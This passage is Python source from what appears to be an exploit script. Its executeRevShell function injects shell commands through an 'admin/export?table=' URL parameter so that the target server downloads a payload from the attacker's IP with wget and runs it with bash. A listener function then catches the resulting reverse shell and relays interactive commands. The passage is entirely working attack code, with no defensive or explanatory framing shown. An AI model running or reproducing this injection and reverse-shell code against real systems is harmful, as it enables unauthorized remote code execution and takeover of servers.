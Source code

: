 #   headers - Headers to send with the command injection attempts
def executeRevShell(urlbase, wsIP, mutex, headers):
    if mutex!=None:
        mutex.acquire()

    #convert Ip to dec format
    ipDec = int(ipaddress.ip_address(wsIP))

    print("[*] Instructing the target to download and execute the reverse shell payload")
    with contextlib.suppress(requests.exceptions.ReadTimeout):
        requests.get(urlbase+"admin/export?table=x%20rm%20rs", headers=headers)
        requests.get(urlbase+"admin/export?table=x%26wget%20"+str(ipDec)+"%2frs", headers=headers)
        requests.get(urlbase+"admin/export?table=x%26bash%20rs", headers=headers, timeout=0.5)

# listener - Creates a listener which can catch a reverse shell
# Params:
#   ip - IP address to listen on
#   port - Port to listen on
#   lock(opt) - A mutex to release after binding to the specified ip and port
#   commands(opt) - Commands to execute before creating an interactive shell
def listener(ip,port,mutex=None,commands=[]):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("[*] Listening on port " + str(port))
    if mutex != None:
        mutex.release()

    conn, addr = s.accept()
    print('[*] Connection received from ',addr)
    defaultSleepTime = 1 #Time to wait for command output before returning, Measured in seconds
    sleepTime = defaultSleepTime
    while True:

        #Receive data from the target and execute commands
        ans = conn.recv(1024).decode()
        if commands:
            command = commands[0]
            commands = commands[1:]
            if not commands: #If this command is the last command
                sleepTime = 5 #Wait 5 seconds to ensure that all commands have been fully exectued before getting their output
        else:
            sys.stdout.write(ans)
            command = input()
            #Remove the output of the "input()" function
            sys.stdout.write("\033[A\033[F"+ans.split("\n")[-1])

        #Send command
        command += "\n"
        conn.send(command.encode())
